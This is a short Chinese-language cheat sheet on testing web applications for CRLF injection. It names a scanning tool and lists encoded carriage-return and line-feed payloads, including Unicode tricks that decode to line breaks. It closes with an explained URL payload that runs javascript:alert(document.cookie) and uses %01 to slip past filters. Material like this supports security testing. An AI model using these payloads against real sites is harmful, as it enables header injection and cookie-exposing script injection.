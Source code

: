 # CRLF注入

工具：[CRLFsuite](https://github.com/Nefcore/CRLFsuite)

测试是否存在CRLF注入所使用的符号

\r\n

%0D%0A

%0D或%0A

回车换行符的ASCII符号，例如0x0D0x0A

回车换行符的utf-8，例如 %E5%98%8A%E5%98%8D
> 原理
> %E5%98%8A经过Unicode解码变为U+560A，去除无用字符后最后取0A
>
> %E5%98%8D同理

回车换行符的Unicode，例如 \u560d\u560a

注入大量字符串，例如 +++++++ 7000 bytes +++++++

编过码的回车或者换行,例如: %3F%0D , %23%0D , %3F%0A 或者 %23%0A

/x:1/:///%01javascript:alert(document.cookie)/
> 原理
> 
> /x:1/：这是一个无效的URL协议，它被用来欺骗浏览器，使其认为这是一个合法的URL。
> 
> :///：这是一个URL协议分隔符，它表示URL的协议部分结束，接下来的部分是主机名或路径。
> 
> %01：这是一个十六进制转义字符，它表示ASCII值为1的字符。这个字符经常被黑客用来绕过一些安全检测机制。
>
> javascript:alert(document.cookie)：这是一个Javascript代码段，它会在浏览器中弹出当前页面的Cookie信息。这段代码被嵌入到URL字符串中，并且以javascript:伪协议的形式出现，浏览器解析URL时会将其作为Javascript代码来执行。
